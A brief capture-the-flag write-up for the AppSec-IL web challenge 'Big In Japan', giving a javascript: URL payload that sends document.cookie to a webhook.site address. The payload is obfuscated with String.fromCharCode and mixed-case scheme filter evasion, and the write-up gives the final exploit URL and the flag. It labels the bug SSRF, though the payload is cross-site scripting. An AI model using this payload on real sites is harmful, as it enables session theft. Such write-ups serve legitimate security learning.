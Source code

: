 ```yaml
---
layout: default
title: BigInJapan
---
```


# Big In Japan

- **Category:** Web  
---

The challenge is based on SSRF vuln.

We injecting this payload, to the insecure url parameter: 
```
location.href='https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb?data=' + document.cookie;
```

We obufacte this by this way:
```
String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59
```

And then, the final payload is:
```
https://big-in-japan.appsecil.ctf.today/?url=jaVasCriPt:eval(String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))
```

And the image, from the webhook site:

![web hook](./Big_In_Japan/Final.png)


The flag is `AppSec-IL{omedetto}`